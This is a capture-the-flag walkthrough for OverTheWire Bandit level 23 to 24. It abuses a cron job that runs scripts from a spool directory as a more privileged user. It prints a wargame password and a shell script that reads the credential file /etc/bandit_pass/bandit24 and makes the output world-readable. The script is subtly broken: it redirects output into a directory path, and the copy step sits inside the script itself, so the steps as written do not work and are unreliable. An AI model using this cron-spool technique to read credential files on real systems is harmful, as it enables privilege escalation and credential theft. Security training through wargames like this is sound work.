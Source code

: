 ## Level 23 → Level 24

### Objective:
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in `/etc/cron.d/` for the configuration and see what command is being executed.

### Notes:
- This level requires you to create your own first shell script. This is a very big step, and you should be proud of yourself when you beat this level!
- Keep in mind that your shell script is removed once executed, so you may want to keep a copy around.

### SSH Credentials for Level 23:
- **Username**: `bandit23@bandit.labs.overthewire.org`
- **Password**: `0Zf11ioIjMVN551jX3CmStKLYqjk54Ga` (output from level 22)

### Steps:

1. List the contents of `/etc/cron.d/` to find the relevant cron job configuration:
    ```bash
    ls /etc/cron.d/
    ```

2. View the content of the `cronjob_bandit24` file to understand what command is being executed:
    ```bash
    cat /etc/cron.d/cronjob_bandit24
    ```

3. Identify the script that is being executed by the cron job:
    ```bash
    cat /usr/bin/cronjob_bandit24.sh
    ```
   - This script deletes all folders in `/var/spool/$myname/foo` (`/var/spool/bandit24/foo`) if the owner is `bandit23`, with a timeout of 60 seconds.

4. Create a temporary directory to store your password:
    ```bash
    mktemp -d
    ```
   - This will create a temporary directory (e.g., `/tmp/tmp.I6NAhFBL3f`).

5. Create your shell script:
    ```bash
    nano script.sh
    ```
   - Inside the script, write the following:
    ```bash
    #!/bin/bash
    cat /etc/bandit_pass/bandit24 > /tmp/tmp.I6NAhFBL3f
    touch password
    chmod 777 -R /tmp/tmp.I6NAhFBL3f
    cp script.sh /var/spool/bandit24/foo
    ```

6. Make your script executable:
    ```bash
    chmod +x script.sh
    ```

7. After waiting for 1 minute, check the `password` file to see the results:
    ```bash
    cat password
    ```

8. Use the `exit` command to exit `bandit23`:
    ```bash
    exit
    ```

---

### Happy Hacking!
